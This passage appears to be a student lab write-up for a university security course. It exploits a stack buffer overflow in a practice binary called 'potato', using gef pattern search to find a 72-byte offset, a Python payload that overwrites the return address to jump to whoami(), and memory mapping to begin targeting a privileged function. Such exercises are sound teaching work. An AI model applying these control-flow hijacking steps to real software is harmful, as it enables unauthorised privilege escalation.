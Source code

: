 After running the script with the pattern as the `pattern search` functionality of `gef` can be used to find the offset of `$rsp`.

```bash
gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

After finding the offset we need the address in memory of the function we want to redirect the execution flow to. The `whoami()` function was chosen for this step. To find the address of the function in gdb the `print` functionality was used, i.e. `print whoami`. This provided the address `0x4045ca`. To jump to this function our attack script was adjusted with the following payload.

```python
payload = b'\x41' * 72 + p64(0x4045ca)
```

In the program output we could observe that the execution flow was redirected to the `whoami()` function.

```bash
What is the name > Name changed.
user(name='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcaE@' id=1094795585 gid=1094795585 home='AAAAAAAAAAAA\xcaE@' shell='/usr/bin/rbash')
```

After executing the `whoami()` function the program still crasges because with our offset of `\x41` bytes we also overwrite the address of the previous stackframe. After several hours the crash could not be avoided in a simple way and thus avoiding the crash was not tried any longer to not waste any more time on this.

Still a succesful redirect of the execution flow is possible.

### Change execution flow to get authenticated as priv. user

Changing the executioin flow to access a function only accessible only to priviledged users is not as straight forward as changing to a simple other function in the program. This is mainly because the functions accessible by priviledged users accept some sort of function argument.

We can choose a function from the ones we can see are behind the `is_priviledged()` check in the code. 

For this excample we choose the `write_list(char* path)` function.

First we need to identify the address of our desired target. This can be done analogous to the way we did it when changing the control flow for the first time. We will find the address of the function is at `0x403778`.

Next we need the string _userlist_ in hex format. This can be either crafted by hand or we can find an existing string containing the word _userlist_ in the potato2s memory space.

For our purpose it is easiest to look for already existing strings in the programs memory space. 
First we need to identify the memory space we want to search the string in:

```bash
gef➤  vmmap
[ Legend:  Code | Stack | Heap ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000402000 0x0000000000000000 r-- /home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato
0x0000000000402000 0x0000000000405000 0x0000000000002000 r-x /home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato
0x0000000000405000 0x0000000000406000 0x0000000000005000 r-- /home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato
0x0000000000406000 0x0000000000407000 0x0000000000006000 r-- /home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato
0x0000000000407000 0x0000000000408000 0x0000000000007000 rw- /home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato

```
